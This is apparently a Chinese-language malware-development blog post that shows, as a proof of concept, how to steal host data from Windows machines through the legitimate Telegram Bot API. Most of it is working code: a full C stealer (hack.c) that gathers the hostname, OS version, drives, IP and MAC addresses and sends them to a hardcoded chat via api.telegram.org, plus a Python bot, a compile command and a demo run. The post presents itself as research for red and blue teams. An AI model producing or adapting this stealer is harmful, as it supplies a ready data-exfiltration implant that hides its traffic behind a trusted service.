










\newpage
\subsection{恶意软件开发技巧：通过合法的 Telegram API 窃取数据（简单的 C 示例）}

在我最近于 BSides Prishtina 会议上的一次演讲中，观众询问攻击者如何利用合法服务来管理病毒（C2），或者从受害主机窃取数据。

{width="80%"}

这篇文章只是展示一个简单的概念验证：用 Telegram Bot API 从 Windows 主机窃取信息。

假设我们想创建一个简单的窃取程序，把受害主机的数据发送给我们。

一些简单的东西，比如系统信息和适配器信息：

但是，如果我们把这些信息发送到某个 IP 地址，看起来会很奇怪也很可疑。

```cpp
char systemInfo[4096];

// get host name
CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
DWORD size = sizeof(hostName) / sizeof(hostName[0]);
GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

// get OS version
OSVERSIONINFO osVersion;
osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
GetVersionEx(&osVersion);

// get system information
SYSTEM_INFO sysInfo;
GetSystemInfo(&sysInfo);

// get logical drive information
DWORD drives = GetLogicalDrives();

// get IP address
IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
DWORD adapterInfoSize = sizeof(adapterInfo);
if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
return false;

snprintf(systemInfo, sizeof(systemInfo),
  "Host Name: %s\n"  // Use %s for CHAR
  "OS Version: %d.%d.%d\n"
  "Processor Architecture: %d\n"
  "Number of Processors: %d\n"
  "Logical Drives: %X\n",
  hostName,
  osVersion.dwMajorVersion, osVersion.dwMinorVersion, 
  osVersion.dwBuildNumber,
  sysInfo.wProcessorArchitecture,
  sysInfo.dwNumberOfProcessors,
  drives);

// Add IP address information
for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
  "Adapter Name: %s\n"
  "IP Address: %s\n"
  "Subnet Mask: %s\n"
  "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n",
  adapter->AdapterName,
  adapter->IpAddressList.IpAddress.String,
  adapter->IpAddressList.IpMask.String,
  adapter->Address[0], adapter->Address[1], adapter->Address[2],
  adapter->Address[3], adapter->Address[4], adapter->Address[5]);

```

那么，如果我们创建一个 telegram 机器人，用它把信息发送给我们呢？

首先，创建一个简单的 telegram 机器人：

{width="80%"}

如你所见，我们可以用 HTTP API 与这个机器人对话。

下一步，为 python 安装 telegram 库：

```bash
python3 -m pip install python-telegram-bot
```

{width="80%"}

然后，我稍微修改了一个简单脚本：echo 机器人——`mybot.py`：

```python
#!/usr/bin/env python
# pylint: disable=unused-argument
# This program is dedicated to the public domain under the CC0 license.

"""
Simple Bot to reply to Telegram messages.

First, a few handler functions are defined. Then, those functions are passed to
the Application and registered at their respective places.
Then, the bot is started and runs until we press Ctrl-C on the command line.

Usage:
Basic Echobot example, repeats messages.
Press Ctrl-C on the command line or send a signal to the process to stop the
bot.
"""

import logging

from telegram import ForceReply, Update
from telegram.ext import Application, CommandHandler, ContextTypes, 
MessageHandler, filters

# Enable logging
logging.basicConfig(
  format="%(asctime)s - %(name)s - %(levelname)s - %(message)s", level=logging.INFO
)
# set higher logging level for httpx to avoid all GET and POST requests being logged
logging.getLogger("httpx").setLevel(logging.WARNING)

logger = logging.getLogger(__name__)

# Define a few command handlers. These usually take the two arguments update and
# context.
async def start(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
  """Send a message when the command /start is issued."""
  user = update.effective_user
  await update.message.reply_html(
  rf"Hi {user.mention_html()}!",
  reply_markup=ForceReply(selective=True),
  )

async def help_command(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
  """Send a message when the command /help is issued."""
  await update.message.reply_text("Help!")

async def echo(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
  """Echo the user message."""
  print(update.message.chat_id)
  await update.message.reply_text(update.message.text)

def main() -> None:
  """Start the bot."""
  # Create the Application and pass it your bot's token.
  application = Application.builder().token("my token here").build()

  # on different commands - answer in Telegram
  application.add_handler(CommandHandler("start", start))
  application.add_handler(CommandHandler("help", help_command))

  # on non command i.e message - echo the message on Telegram
  application.add_handler(MessageHandler(filters.TEXT & ~filters.COMMAND, echo))

  # Run the bot until the user presses Ctrl-C
  application.run_polling(allowed_updates=Update.ALL_TYPES)

if __name__ == "__main__":
  main()
```

如你所见，我加入了打印 chat ID 的逻辑：

```python
async def echo(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
  """Echo the user message."""
  print(update.message.chat_id)
  await update.message.reply_text(update.message.text)
```

我们来看看这段简单逻辑：

```bash
python3 mybot.py
```

{width="80%"}

{width="80%"}

{width="80%"}

我们看到 chat ID 成功打印出来了。

对于通过 Telegram Bot API 发送数据，我只是创建了这个简单的函数：

```cpp
// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
  fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
  return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
  fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", 
  L"/bot---xxxxxxxxYOUR_TOKEN_HERExxxxxx---/sendMessage", NULL, 
  WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
  fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

  // set the headers
  if (!WinHttpSendRequest(hRequest, 
  L"Content-Type: application/x-www-form-urlencoded\r\n", -1, 
  requestBody, strlen(requestBody), strlen(requestBody), 0)) {
  fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;

```

那么，完整源代码看起来是这样的——`hack.c`：

```cpp
/*
 * hack.c
 * sending victim's systeminfo via 
 * legit URL: Telegram Bot API
 * author @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
  fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
  return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
  fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/bot----TOKEN----/sendMessage", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
  fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

  // set the headers
  if (!WinHttpSendRequest(hRequest, L"Content-Type: application/x-www-form-urlencoded\r\n", -1, requestBody, strlen(requestBody), strlen(requestBody), 0)) {
  fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;

// get systeminfo and send to chat via tgbot logic
int main(int argc, char* argv[]) {

  // test tgbot sending message
  char test[1024];
  const char* message = "meow-meow";
  snprintf(test, sizeof(test), "{\"text\":\"%s\"}", message);
  sendToTgBot(test);

  char systemInfo[4096];

  // Get host name
  CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
  DWORD size = sizeof(hostName) / sizeof(hostName[0]);
  GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

  // Get OS version
  OSVERSIONINFO osVersion;
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);

  // Get system information
  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);

  // Get logical drive information
  DWORD drives = GetLogicalDrives();

  // Get IP address
  IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
  DWORD adapterInfoSize = sizeof(adapterInfo);
  if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
  printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
  return false;
  }

  snprintf(systemInfo, sizeof(systemInfo),
  "Host Name: %s\n"  // Use %s for CHAR
  "OS Version: %d.%d.%d\n"
  "Processor Architecture: %d\n"
  "Number of Processors: %d\n"
  "Logical Drives: %X\n",
  hostName,
  osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
  sysInfo.wProcessorArchitecture,
  sysInfo.dwNumberOfProcessors,
  drives);

  // Add IP address information
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
  snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
  "Adapter Name: %s\n"
  "IP Address: %s\n"
  "Subnet Mask: %s\n"
  "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n\n",
  adapter->AdapterName,
  adapter->IpAddressList.IpAddress.String,
  adapter->IpAddressList.IpMask.String,
  adapter->Address[0], adapter->Address[1], adapter->Address[2],
  adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }
  
  char info[8196];
  snprintf(info, sizeof(info), "{\"text\":\"%s\"}", systemInfo);
  int result = sendToTgBot(info);

  if (result == 0) {
  printf("ok =^..^=\n");
  } else {
  printf("nok <3()~\n");
  }

  return 0;

```

### 演示

我们来看看一切的实际效果。

编译我们的「窃取程序」`hack.c`：

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -liphlpapi -lwinhttp
```

{width="80%"}

然后在我的 Windows 11 虚拟机上运行它：

```powershell
.\hack.exe
```

{width="80%"}

如果我们用 Wireshark 检查流量，我们得到了 IP 地址 149.154.167.220：

```bash
whois 149.154.167.220
```

{width="80%"}

我们可以看到一切都完美工作了 =..=！

用 WebSec Malware Scanner 扫描：

{width="80%"}

<https://websec.nl/en/scanner/result/45dfcb29-3817-4199-a6ef-da00675c6c32>

有趣的结果。

当然，这并不是那么复杂的窃取程序，因为它只是一个「粗糙的 PoC」，在真实攻击中会使用逻辑更精巧的窃取程序。

但我想我成功展示了本质和风险所在。

我希望这篇带有实战示例的文章对恶意软件研究员、红队有用，也能让蓝队意识到这项有趣的技术。

### 实战示例
